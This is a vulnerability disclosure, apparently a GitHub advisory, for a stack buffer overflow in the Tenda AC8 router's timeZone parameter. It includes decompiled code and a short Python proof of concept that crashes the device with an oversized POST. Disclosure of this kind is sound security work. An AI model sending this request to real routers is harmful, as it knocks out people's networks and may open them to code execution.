




# TARGET

- **Device:** Tenda AC8
- **Firmware Version:** V16.03.33.05
- **Vendor Website:** https://www.tendacn.com/
- **Firmware Reference:** AC8v4.0 Firmware - Tenda Global (English)
- 

------

# BUG TYPE

This issue is classified as a **Stack-Based Buffer Overflow Vulnerability**, caused by improper input validation in the router’s HTTP service interface.

# Abstract

A buffer overflow vulnerability exists in the **Tenda AC8 router** running firmware version **V16.03.33.05**.
 The flaw originates from the `fast_setting_wifi_set` interface in the embedded `httpd` service, which fails to properly validate user-supplied input in the `timeZone` parameter.

An attacker can exploit this vulnerability by sending a specially crafted HTTP request with an overly long `timeZone` value, potentially leading to **remote code execution** or a **denial-of-service (DoS)** condition.

------

# Details

## Vulnerability Description

The Tenda AC8 router contains a buffer overflow vulnerability in firmware version **V16.03.33.05**.
 The issue lies in the `fast_setting_wifi_set` endpoint, where the `httpd` service does not effectively filter or validate the length of the `timeZone` parameter.

Because input data is not correctly checked, a remote attacker can trigger memory corruption by supplying an excessively long string. This may result in arbitrary code execution or cause the device to crash.

------

## Vulnerability Analysis

Using IDA Pro, the vulnerability can be observed in the `httpd` binary, within the function `form_fast_setting_wifi_set`.





At line 89, this function calls the vulnerable subroutine `sub_44DC0C`.

Further analysis of `sub_44DC0C` shows unsafe string parsing and copy operations:

```
v4 = (char *)websGetVar(a1, "timeZone", &unk_4EA2AC);
```

The function retrieves the `timeZone` parameter directly from the HTTP request. This parameter is fully controlled by the user and is not subject to any length or content validation.

The following code is then executed:

```
sscanf(v4 + 1, "%[^:]:%s", v7, v8);
```

Here, the input is parsed into local stack buffers `v7` and `v8`, each of which is only **4 bytes** in size.
 Since the `sscanf` format string does not impose any width restriction, an overly long `timeZone` parameter will overflow these buffers, leading to stack corruption.

Attackers may exploit this vulnerability through API requests, malicious configuration files, or crafted HTTP payloads, ultimately causing program crashes or potentially enabling arbitrary code execution.

------

# POC

The following proof-of-concept demonstrates how the vulnerability can be triggered:

```
import requests

url = "http://10.10.10.1/goform/fast_setting_wifi_set"

data = {
    b"timeZone": b'a' * 0x200,
    b"ssid": b'12345'
}

res = requests.post(url=url, data=data)
print(res.content)
```

## Expected Result

Running the exploit produces a **Segmentation Fault**, indicating that the program attempted to access an invalid memory address. This confirms the presence of a serious memory safety issue.



